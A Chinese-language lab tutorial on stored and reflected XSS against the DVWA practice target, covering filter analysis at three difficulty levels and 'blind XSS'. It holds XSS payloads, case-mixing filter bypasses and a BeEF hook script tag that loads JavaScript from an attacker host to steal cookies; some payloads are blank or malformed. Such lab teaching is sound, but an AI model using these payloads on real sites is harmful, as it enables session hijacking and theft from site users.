

# 201-A7-XSS（上）


在本节中，我们将介绍一种常见的web漏洞，即XSS漏洞。本节需要准备DVWA靶机。

## 1. 认识XSS
XSS又叫CSS (Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的特殊目的。
在XSS攻击中，一般有三个角色参与：攻击者、目标服务器、受害者的浏览器。
由于有的服务器并没有对用户的输入进行安全方面的验证，攻击者就可以很容易地通过正常的输入手段，夹带进一些恶意的HTML脚本代码。当受害者的浏览器访问目标服务器上被注入恶意脚本的页面后，由于它对目标服务器的信任，这段恶意脚本的执行不会受到什么阻碍。而此时，攻击者的目的就已经达到了。


 XSS 分类：
   1.反射型
   2.存储型
   3.DOM型


  XSS （Stored）存储型攻击发生的具体情镜：
  - 黑客发现一个存在XSS漏洞的接口或页面，构造恶意代码（payload）后，将其插入到页面中使得所有浏览该页面的用户均受到安全威胁。

## 2.存储型XSS演示

首先我们进入到DVWA中将难度选择为LOW。


之后我们进入XSS（Stored）中。在进行测试前我们可以先对提交点进行审查元素。
对着目标右键选择审查元素。


接下来我们查看两个输入框的属性。
可以看到有输入长度的限制。其中 Name maxlength=10  Message maxlength=50。不难看出一个长度为10一个长度为50。


当然对于前端的长度限制我们是可以使用抓包工具去绕过。或者直接在本地修改html属性。如将maxlength改为100，这样前端的输入限制就可以轻松绕过了。

引申：在安全编码中，将安全的设置放置于用户端，虽然可以减轻服务器的工作量，但是如果服务端没有其他措施的话，则会很轻松的进行绕过。
我们首先尝试使用短 XSS payload 进行尝试。 

payload ： `<script>alert(1)</script>`


成功弹窗，即证明此处存在xss漏洞。


## 3. 使用beef盗取cookie

下面我们使用beef配合完成攻击。
这里我们将payload插入页面后，当用户浏览了这个页面，`<script>`标签就会远程执行我们的beef上面的恶意js代码从而盗取cookie。	
启动BEEF方法如下:
第一步，点击左侧终端后输入 `beef-xss` 
第二步，等待打开Web界面，输入帐户密码。密码及账户均为 `beef`

开启正式的攻击测试：
插入的payload为： 
`<script src="http://192.168.0.150:3000/hook.js"></script>`
其中172.16.11.2为beef工具所在的主机IP，根据实际情况给予修改即可。另Linux查看本机IP地址的命令为：ifconfig
之后我们先刷新一下页面，确保我们插入的代码执行。
再进入之前打开的BEEF界面，查询我们收到的cookie：
进入BEEF后我们先点击 ` Command Browser` -> `Commands` -> 在`Searche`框输入`cookie`并回车 -> 进入新的页面后点击右下角`Execute `->之后点击中间出现的记录 此时我们就可以在右侧看到我们收到的cookie了。 
完成全部操作后我们将得到一个格式为：
php=xxxxxxxxxx;security=low样式的cookie。


## 4.漏洞源码分析
在DVWA点击ViewSource查看源码


首先`if( isset( $_POST[ 'btnSign' ] ) )`,这里是对表单提交的的name属性值为btnSign的值进行效验是否为空值，如果为空值则返回`flase`，不为空则继续进行下一步操作。
接下来我们可以看见`trim`函数，这个函数的主要作用就是去除其()内数据的两侧的空白字符或其他预定义字符。而这里处理的就是一post方式提交的name属性值为mtxMessage的数据，处理完后值赋给`$message`。`$name`同理。
接下来是`stripslashes`函数，这个函数一般情况下是伴随着`addslashes`函数出现，作用是删除由 `addslashes`函数添加的反斜杠。这里就是将上面由`addslashes`函数处理`$message`,`$name`进行再处理，去掉了\，然后再重新赋值给自己。
接下来就是运用`mysql_real_escape_string`函数处理`$name`,  `mysql_real_escape_string`函数会转义 SQL 语句中使用的字符串中的特殊字符。
 这些字符包括：
 - \x00
 - \n
 - \r
 - \
 - '
 - "
 - \x1a
接下来就是拼接sql语句，赋值给\$query,为下面执行插入数据做准备
紧接着就是一个使用or的赋值判断句，`mysql_query()` 函数作用执行()内的 MySQL语句进行查询，`die()` 函数作用是输出()内的数据，并退出当前脚本。在这里也就是先用`mysql_query()` 函数先行`$query`里的MySQL语句，如果语句格式没有错误的情况下则执行成功，返回true给\$result,反之执行失败，则用die函数输出`mysql_error()`函数所获取的MySQL 操作产生的文本错误信息，并且退出语句。
分析到这里可以看到，LOW级别的数据处理和过滤过程没有针对XSS做过考量。所以插入的最低级的xss语句就可以获得对应的结果。

## 5.dvwa的中级别

首先我们将DVWA的难度调整为MEDIUM。
这里我们可以看到我们之前插入代码弹出的提示框。为了避免干扰，建议进行如下操作：
1 点击页面`Setup/Reset DB`，然后选择新页面中的`create/Reset Database`
2 通过重置数据库可以清除掉我们之前留下的记录。

接下来我们尝试插入代码。
做过多次测试其中发现name框存在`<script>`标签大小写绕过。
使用payload:`<SCriPt>alert('1')</SCriPt>` 可以成功进行弹窗。




可以看到成功弹窗了，证明存在XSS，下面使用beef来配合攻击。

真实的窃取cookie：
首先插入payload: 

```html
 <SCriPt> src="http://172.16.11.2:3000/hook.js"</SCriPt>
```

之后我们使用BEEF来盗取cookie。
步骤如之前一样，这里就不在赘述。这次大家可以注意到与上次不同cookie里面有一部分不同，等级从LOW变成了medium。
必须得到一个格式为php=xxxxxxxxxx;security=medium的cookie


View Source 查看源码:


str_replace() 函数以其他字符替换字符串中的一些字符（区分大小写）。
在这里就是过滤script这个字符串。
因为没有对script的大小写进行限制和识别，这里可以用大小写混合，
比如`<ScRiPt>`标签进行绕过。

不妨试试`<scr<script>ipt>`类似风格的测试。

## 6.dvwa的高级别

high级别的代码分析


这里代码和medium整体上没有太大区别，就是多了一个正则表达式来配合`preg_replace() `函数对$name来进行过滤。
正则匹配的规则变化为``/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i`` 可以看到匹配规则加上了`/i` 不区分大小写。`(.*)` 的作用是匹配任意数量的非回车的所有字符，所以在测试中也可以发现不管怎么构造payload,只要''顺序''出现`\<script>`都会被屏蔽，这里就输入一个进行尝试。
我们尝试payload: `<>ScRiPt11111>` ，可以看到同样会被过滤掉，这也说明`script`标签我们是无法通过大小写的方式绕过了。在防御方面`正则表达式`有着得天独厚的优势，所以经常被用于php安全编程。
在xss的常见绕过的方式中，使用格式类似 `<scr<script>ipt>`的payload往往会有意外的收获。但此次测试因为使用了`(.*)`的模式，则无法进行绕过。

由于对script的关键字进行了彻底的过滤，为此我们使用payload：`` 即可成功构造弹窗。


更多XSS漏洞的payload将在后续课程中说明。 

## 7.存储型xss思考

低级别中插入弹窗的payload
随后我们切换到high级别
我们会发现依旧弹窗：）


假如说我们在工作中，生产环境被攻击插入payload，而没有清除数据库，是否还会继续产生危害？


进阶的思考----XSS盲打

盲打只是一种惯称的说法，就是不知道后台不知道有没有xss存在的情况下，不顾一切的输入xss代码在留言啊，feedback啊之类的地方，尽可能多的尝试xss的语句与语句的存在方式，就叫盲打。
       “xss盲打”是指在攻击者对数据提交后展现的后台未知的情况下，网站采用了攻击者插入了带真实攻击功能的xss攻击代码（通常是使用script标签引入远程的js）的数据。当未知后台在展现时没有对这些提交的数据进行过滤，那么后台管理人员在操作时就会触发xss来实现攻击者预定好的“真实攻击功能”。
       通俗讲就是见到输入框就输入提前准备的
xss代码， 通常是使用script标签引入远程的js代码，当有后台人员审核提交数据时候，点击了提交的数据，触发获取到有价值信息 。 


## 8. XSS反射型dvwa演示

low级别：`<script>alert(1)</script>`


medium级别:  `<ScRiPt>alert(1)</ScRiPt>`


high级别：``


## 9.思考

思考：

XSS的存储型与反射型的差别在哪？

XSS最终攻击的是哪里？

如果存储型只能弹窗，是否构成伤害？

http://blog.csdn.net/tanzhen1991910/article/details/53085274


课后作业：

针对DVWA/BEEBOX有关xss进行测试。
测试方法：如果手工存有难度，可以通过burpsuite进行查找可能存在的漏洞。
最新版的DVWA新增了DOM型XSS，可以自行测试。
